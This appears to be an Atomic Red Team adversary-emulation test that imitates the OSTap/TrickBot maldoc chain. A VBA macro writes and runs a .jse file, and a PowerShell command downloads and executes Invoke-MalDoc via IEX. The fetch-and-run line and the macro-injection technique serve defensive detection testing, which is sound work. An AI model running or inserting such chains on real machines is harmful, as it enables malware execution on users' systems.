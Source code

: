 This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. Upon execution, the .jse file launches wscript.exe.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.
This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns.
References:
https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows

**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff

#### Inputs:

| Name       | Description                                               | Type   | Default Value                       |
| ---------- | --------------------------------------------------------- | ------ | ----------------------------------- |
| jse_path   | Path for the macro to write out the "malicious" .jse file | string | C:&#92;Users&#92;Public&#92;art.jse |
| ms_product | Maldoc application Word or Excel                          | string | Word                                |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:

```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:
